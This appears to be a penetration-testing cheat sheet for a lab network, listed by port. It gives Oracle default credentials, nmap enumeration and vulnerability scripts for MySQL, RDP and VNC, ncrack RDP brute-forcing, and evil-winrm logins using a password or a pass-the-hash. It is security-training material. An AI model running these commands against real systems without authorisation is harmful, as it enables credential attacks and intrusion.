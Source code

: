 ## Port 2100 - Oracle XML DB

```
FTP:
	sys:sys
	scott:tiger
```

Default passwords
https://docs.oracle.com/cd/B10501_01/win.920/a95490/username.htm


## 3306 - MySQL

```
nmap --script=mysql-databases.nse,mysql-empty-password.nse,mysql-enum.nse,mysql-info.nse,mysql-variables.nse,mysql-vuln-cve2012-2122.nse 10.11.1.111 -p 3306

mysql --host=10.11.1.111 -u root -p

MYSQL UDF 
https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/
```

## Port 3339 - Oracle web interface


- Basic info about web service (apache, nginx, IIS)

## RDP - 3389

```
nmap -p 3389 --script=rdp-vuln-ms12-020.nse
rdesktop -u username -p password -g 85% -r disk:share=/root/ 10.11.1.111
rdesktop -u guest -p guest 10.11.1.111 -g 94%
ncrack -vv --user Administrator -P /root/oscp/passwords.txt rdp://10.11.1.111
```

## VNC - 5900

```
nmap --script=vnc-info,vnc-brute,vnc-title -p 5900 10.11.1.111
```

## WinRM - 5985

```
https://github.com/Hackplayers/evil-winrm
gem install evil-winrm
evil-winrm -i 10.11.1.111 -u Administrator -p 'password1'
evil-winrm -i 10.11.1.111 -u Administrator -H 'hash-pass' -s /scripts/folder
```
